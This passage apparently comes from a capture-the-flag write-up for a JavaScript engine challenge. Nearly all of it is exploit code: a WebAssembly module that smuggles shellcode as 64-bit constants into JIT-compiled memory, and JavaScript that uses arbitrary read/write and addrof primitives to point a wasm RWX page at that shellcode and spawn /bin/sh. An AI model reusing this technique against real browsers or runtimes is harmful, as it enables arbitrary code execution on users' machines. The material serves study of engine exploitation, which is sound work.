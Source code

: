 The WebAssemly code to store the above shellcode to the memory:
```
(module
  (memory 1)
  (func (export "trigger")
    nop
  )
  (func (export "shell")
    i32.const 0
    i64.const 0x10eb9090ff315e54
    i64.store
    i32.const 8
    i64.const 0x6eb9000000010ba
    i64.store
    i32.const 16
    i64.const 0x6eb9090050fc031
    i64.store
    i32.const 24
    i64.const 0x6eb900000003bb8
    i64.store
    i32.const 32
    i64.const 0x6ebd231f6315f54
    i64.store
    i32.const 40
    i64.const 0x90909090feeb050f
    i64.store
  )
)
```

The full exploitation:

```
var wasm_code = new Uint8Array([
  0, 97, 115, 109, 1, 0, 0, 0, 1, 4, 1, 96, 0, 0, 3, 3, 2, 0, 0, 5, 3, 1, 0, 1,
  7, 19, 2, 7, 116, 114, 105, 103, 103, 101, 114, 0, 0, 5, 115, 104, 101, 108,
  108, 0, 1, 10, 99, 2, 3, 0, 1, 11, 93, 0, 65, 0, 66, 212, 188, 197, 249, 143,
  146, 228, 245, 16, 55, 3, 0, 65, 8, 66, 186, 161, 128, 128, 128, 128, 228,
  245, 6, 55, 3, 0, 65, 16, 66, 177, 128, 191, 168, 128, 146, 228, 245, 6, 55,
  3, 0, 65, 24, 66, 184, 247, 128, 128, 128, 128, 228, 245, 6, 55, 3, 0, 65, 32,
  66, 212, 190, 197, 177, 159, 198, 244, 245, 6, 55, 3, 0, 65, 40, 66, 143, 138,
  172, 247, 143, 146, 164, 200, 144, 127, 55, 3, 0, 11,
]);

var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var shell = wasm_instance.exports.shell;
var trigger = wasm_instance.exports.trigger;

/* Trigger jit compiler */
shell();

/* Get address of rwx page, and overwrite it with the offset to our smuggled shellcode */
var rwx_page_addr = arbitray_addr_read(addrof(wasm_instance)+0x50n);
console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));
arbitray_addr_write(addrof(wasm_instance)+0x50n, itof(rwx_page_addr + 0x75dn));

/* Shellcode from @unvariant reads from stdin the command, therefore solve.py sends /bin/sh\x00
 * NOTE: read does not appear to block, send /bin/sh\x00 BEFORE it reads (aka when console.log is executed) */
console.log("SEND");
trigger();
```
